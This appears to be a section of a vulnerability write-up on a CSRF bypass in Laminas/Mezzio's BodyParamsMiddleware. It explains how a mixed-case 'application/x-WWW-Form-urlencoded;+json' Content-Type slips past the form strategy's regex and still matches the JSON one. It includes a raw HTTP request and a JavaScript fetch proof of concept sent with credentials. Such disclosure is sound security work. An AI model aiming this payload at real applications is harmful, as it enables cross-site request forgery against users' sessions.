 ### Laminas, Mezzio, Zend Framework

**Vulnerable endpoint**
```php
$app->pipe(BodyParamsMiddleware::class);
...
public function indexAction() {
  $request = $this->getRequest();
```

**Source code**

By default, BodyParamsMiddleware composes the following strategies:

 * Mezzio\Helper\BodyParams\FormUrlEncodedStrategy
 * Mezzio\Helper\BodyParams\JsonStrategy

[/mezzio/mezzio-helpers/src/BodyParams/FormUrlEncodedStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/FormUrlEncodedStrategy.php#L18-L22)
```php
class FormUrlEncodedStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/x-www-form-urlencoded($|[ ;])#', $contentType);
```

[/mezzio/mezzio-helpers/src/BodyParams/JsonStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/JsonStrategy.php#L27-L31)
```php
class JsonStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/(|[\S]+\+)json($|[ ;])#', $contentType);
```

**JSON Content-Type**
```
application/XXX;+json
```

**HTTP Request**  
A different case is needed in order to bypass the FormUrlEncodedStrategy.
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-WWW-Form-urlencoded;+json
Content-Length: 13

{"test":true}
```
**JS CSRF PoC**
```html
<script>
  fetch('http://localhost/json',{
    method:'POST',
    headers:{'Content-Type':'application/x-WWW-Form-urlencoded;+json'},
    body:'{"test":true}',
    credentials: 'include'
  })
</script>
```
